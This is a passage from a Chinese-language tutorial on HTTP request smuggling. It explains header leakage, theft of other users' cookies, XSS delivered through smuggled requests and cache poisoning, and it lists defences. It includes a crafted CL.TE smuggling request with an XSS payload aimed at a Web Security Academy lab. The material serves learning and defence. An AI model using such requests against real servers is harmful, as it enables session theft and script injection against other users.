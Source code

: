 注意下方走私的请求CL为70，即会把下方长度70的数据流返回给客户端从而暴露前端重写的请求头。



### 获取其他用户响应

请求和上方构造POST请求区别不大，走私的post请求中CL长度较大，导致后面的请求也被当做数据返回，使得其他用户的cookie泄露。

构造UA如下，获得响应的位置。

![img](https://p2.ssl.qhimg.com/dm/1024_667_/t015eacd462a5bf6563.png)

构造请求：

```
POST / HTTP/1.1
Host: ac801fd21fef85b98012b3a700820000.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>#
Content-Type: application/x-www-form-urlencoded
```

走私的请求会在其他用户响应中形成xss。



### 缓存投毒

构造请求打乱了服务器的返回顺序。使得获取缓存中的内容，可能是其他人的缓存。

## 防御手段

- 禁用代理服务器与后端服务器之间的tcp连接重用
- 使用HTTP/2协议
- 前后端使用相同的服务器

以上的措施有的不能从根本上解决问题，而且有着很多不足，就比如禁用代理服务器和后端服务器之间的TCP连接重用，会增大后端服务器的压力。使用HTTP/2在现在的网络条件下根本无法推广使用，哪怕支持HTTP/2协议的服务器也会兼容HTTP/1.1。从本质上来说，HTTP请求走私出现的原因并不是协议设计的问题，而是不同服务器实现的问题，个人认为最好的解决方案就是严格的实现RFC7230-7235中所规定的的标准，但这也是最难做到的。